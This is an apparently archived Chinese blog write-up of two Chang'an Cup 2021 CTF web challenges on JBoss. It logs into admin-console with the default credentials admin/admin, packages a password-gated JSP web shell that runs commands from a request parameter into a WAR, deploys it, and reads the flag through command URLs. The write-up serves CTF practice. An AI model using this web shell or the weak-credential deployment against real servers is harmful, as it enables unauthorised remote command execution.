






<!--yml
category: 未分类
date: 2022-04-26 14:36:19
-->

# CTF_Web：长安杯-2021 Old But A Little New & asuka题解_星辰照耀你我的博客-CSDN博客

> 来源：[https://blog.csdn.net/qq_35493457/article/details/120470858](https://blog.csdn.net/qq_35493457/article/details/120470858)

## 0x00 Old But A Little New

两个JBoss题目几乎一模一样，解法也相同，题目只考一个内容，就是Jboss后台上传war包getshell。
首先是一个jboss页面。
后面的wiki等等连接都在jboss的官网，与本题没有关系。

## 0x01 弱口令登录



第一个路径`admin-console`，管理员控制台可以直接使用`admin、admin`的弱口令登录，在后台中找到部署war包的地方上传。（这里的shell.war是已经上传好的）


## 0x02 上传war包getshell

在这里使用的是[TsengYUen](https://www.jianshu.com/p/123db17b78a0)师傅的回显jsp一句话，然后使用命令打包。

```
jar cvf shell.war 1.jsp 
```

一句话的内容为：

```
<%
   if("023".equals(request.getParameter("pwd"))){
        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b));
        }
        out.print("</pre>");
    }
%> 
```

部署成功后查看自己的war包：
路径为`/shell/1.asp`
网页连接列目录

```
http://51118620.yunyansec.com/shell/1.jsp?pwd=023&i=ls 
```

直接cat flag即可。

```
http://51118620.yunyansec.com/shell/1.jsp?pwd=023&i=cat%20flag 
```



## 0x03 asuka

JBoss系列的题目，与上一个JBoss相同的解法，用同一个war包即可。命令执行获取flag
